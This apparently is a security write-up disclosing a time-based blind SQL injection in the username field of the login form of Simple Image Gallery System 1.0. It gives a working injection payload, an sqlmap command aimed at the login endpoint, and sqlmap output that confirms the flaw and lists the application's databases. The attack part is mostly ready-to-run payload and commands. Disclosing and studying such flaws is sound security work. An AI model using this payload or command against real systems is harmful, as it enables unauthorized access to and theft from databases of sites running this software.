 ```yaml
---
title: Simple Image Gallery System 1.0 - SQL Injection (Time-Based blind)
tags: [ exploit, simple-image-gallery-system, sql-injection]
style: border
color: danger
description: ""
---
```


## Description
The Simple Image Gallery System 1.0 application is vulnerable to SQL injection through the "username" parameter in the authentication form.

## Proof of concept
Use the following payload in the *username* field and type any password.

#### Payload
```
'oR sLEeP(10);#
```

#### PoC from the web browser
![](../assets/img/simple-image-gallery-system-10-sql/1.png)

## Exploitation
Once it is evident that the loading of the site takes *10 seconds*, we can execute the following command with the *SQLMap* tool:

#### SQLMap command
```bash
 sqlmap -u "http://[IP/HOST]:PORT/gallery/classes/Login.php?f=login" --data "username=admin&password=123456" --dbs --batch  
```
```
<-- SNIP -->  
 Parameter: username (POST)  
   Type: time-based blind  
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)  
   Payload: username=admin' AND (SELECT 6178 FROM (SELECT(SLEEP(5)))VfMt) AND 'YJYU'='YJYU&password=123456  
 ---  
 [INFO] the back-end DBMS is MySQL  
 web server operating system: Linux Ubuntu 18.04 (bionic)  
 web application technology: Apache 2.4.29  
 back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)  
 [INFO] fetching database names  
 [INFO] fetching number of databases  
 [INFO] resumed: 2  
 [INFO] resumed: gallery_db  
 [INFO] resumed: information_schema  
 available databases [2]:  
 [*] gallery_db  
 [*] information_schema
```

#### Exploitation with SQLMap tool
![](../assets/img/simple-image-gallery-system-10-sql/2.png)
